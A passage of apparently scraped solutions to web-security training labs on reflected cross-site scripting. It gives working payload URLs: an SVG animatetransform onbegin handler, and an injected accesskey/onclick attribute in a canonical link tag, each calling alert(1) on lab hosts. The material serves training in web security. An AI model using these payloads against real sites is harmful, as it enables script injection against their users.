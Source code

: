                             When the attack is finished, review the results. Note that all payloads caused an HTTP 400 response, except for the <code>onbegin</code> payload, which caused a 200 response.
                        </p>
                        <p>
                            Visit the following URL in the browser to confirm that the alert() function is called and the lab is solved:
                        </p>
                        <code class="code-scrollable">https://your-lab-id.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E</code>
                    </li>
                </ol>
            </div>
        </div>



##### Reflected XSS in canonical link tag

> This lab reflects user input in a canonical link tag and escapes angle brackets.
>
> To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.
>
> To assist with your exploit, you can assume that the simulated user will press the following key combinations:
>
>     ALT+SHIFT+X,  CTRL+ALT+X,  Alt+X
>    
>    Please note that the intended solution to this lab is only possible in Chrome. 

<div class="component-solution is-expandable expanded">
            <h5>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h5>
            <div>
                <ol>
                    <li>
                        <p>
                            Visit the following URL, replacing <code>your-lab-id</code> with your lab ID:
                        </p>
                        <code class="code-scrollable">https://your-lab-id.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)</code>
                        <p>
                            This sets the <code>X</code> key as an access key for the whole page. When a user presses the access key, the <code>alert</code> function is called.
                        </p>
                    </li>
                    <li>
                        To trigger the exploit on yourself, press one of the following key combinations:
                        <ul>
                            <li>
                                On Windows: <code>ALT+SHIFT+X</code>
                            </li>
                            <li>
                                On MacOS: <code>CTRL+ALT+X</code>
                            </li>
                            <li>
                                On Linux: <code>Alt+X</code>
                            </li>
                        </ul>
                    </li>
                </ol>
            </div>
        </div>
